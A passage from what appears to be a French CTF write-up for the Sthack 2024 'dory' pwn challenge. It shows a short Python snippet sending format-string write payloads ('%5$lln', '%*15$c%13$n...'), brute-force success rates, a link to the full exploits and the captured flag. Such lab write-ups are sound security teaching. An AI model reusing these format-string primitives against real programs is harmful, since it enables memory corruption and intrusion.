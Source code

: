 ```py

# clear argv[0] pour satisfaire [RBX] == NULL
io.send(f"%5$lln".encode())

# écriture des valeurs
io.io.sendline(b"%*15$c%13$n%*16$c%14$hn")
```

Vous pouvez retrouver les exploits complets [ici](https://github.com/expressitoo/ctf-wu/blob/main/2024/sthack/pwn/dory/), le premier nécessite de bruteforcer 4 bits à deux reprises (un succès de 1/10 pendant les tests), dans le cadre du CTF le plus rapide ne veut pas dire le plus stable. Tandis que le deuxième nécessite seulement de bruteforcer 4-bits pour les 32-bits de l'argv qui doivent être inférieur à un `INT_MAX` (un succès de 1/3 pendant les tests).

Enfin voici le résultat après exécution du script :

[![flag.png](./assets/flag.png)](./assets/flag.png)

Flag : `STHACK{I_R3m3m8er!!}`